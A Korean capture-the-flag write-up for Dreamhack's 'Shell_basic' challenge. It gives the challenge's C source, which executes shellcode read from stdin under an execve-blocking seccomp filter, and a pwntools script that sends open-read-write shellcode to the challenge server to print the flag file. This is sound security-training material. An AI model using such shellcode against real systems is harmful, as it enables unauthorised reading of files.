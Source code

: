 # [Shell_basic](https://dreamhack.io/wargame/challenges/410/) 

 문제 파일의 코드는 다음과 같다. 

```C
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

## Exploit strategy

처음 문제를 보았을 때는 mmap이라는 생소한 함수가 있어서 굉장히 당황스러웠다.

공부를 해서 찾아보니 문제에 적힌 코드 
char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);의 의미는 offset(마지막 argument 0)에서 시작해서 0x1000바이트만큼을 start주소(첫번째 argument NULL)로 맵핑한다는 의미다. PROT인자는 메모리 보호모드의 종류이다. 여기서 fd값은 -1이다. fd 값을 -1로 하여 mmap함수를 사용하는 것은 메모리를 할당하는 기술 중의 하나라고 한다. 

유심히 봐야할 코드는 

read(0, shellcode, 0x1000);

sc = (void *)shellcode; 이다.

표준입력을 통해 shellcode에 데이터를 저장하고 이 값을 함수포인터에 type casting을 하여 대입한다.

그렇다면 함수포인터에는 shellcode의 시작주소가 담기게 될 것이기때문에 sc를 호출하는 순간 셸코드를 실행시킬 수 있는 것이다.

이 문제를 풀기위해서는 문제에서 제시한 플래그 파일을 읽어서 플래그를 획득(출력)해야한다. 
즉 우리는 orw shellcode를 삽입한 exploit script를 작성하면 된다.

## Exploit script 

다음은 해당 문제에 대한 exploit script로, 파이썬 모듈 중 pwntools를 사용하여 작성하였다. 

```python
# importing pwntools
from pwn import* 

# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용한다. 매개변수는 각각 호스트와 포트넘버이다.
p = remote('host1.dreamhack.games',10732) 

#공격 대상 아키텍쳐는 x86-64
context.arch = 'amd64' 

#flag 위치와 이름
path = "/home/shell_basic/flag_name_is_loooooong"

#셸코드 선언
code = ''

#shellcraft를 이용하여 open system call의 셸코드를 사용.
code += shellcraft.open(path,0 ,0)

#shellcraft를 이용하여 read system call의 셸코드를 사용. 매개변수는 fd,buffer,count 순이다. 
#fd의 값으로 rax를 쓰는 이유는 open syscall의 반환 값이 rax에 저장되기 때문이다.
#주의해야할 점은 buffer 값으로 (rsp-count)가 아니라 rsp 값을 대입해야한다.
code += shellcraft.read('rax','rsp',0x1000)

#shellcraft를 이용하여 write system call의 셸코드를 사용. 매개변수는 fd,buffer,count 순이다. 
#fd 값으로 1(표준 출력), 나머지 인수는 read와 같음.
code += shellcraft.write(1,'rsp',0x1000)

#출력데이터 받아서 출력.
print(p.recv())

#작성한 셸코드를 기계어로 변환 후 전송
p.send(asm(code))

#플래그 형식은 DH{...}이므로 출력데이터를 '}'가 출력될 때까지 받아서 출력. 
print(p.recvuntil('}'))
```
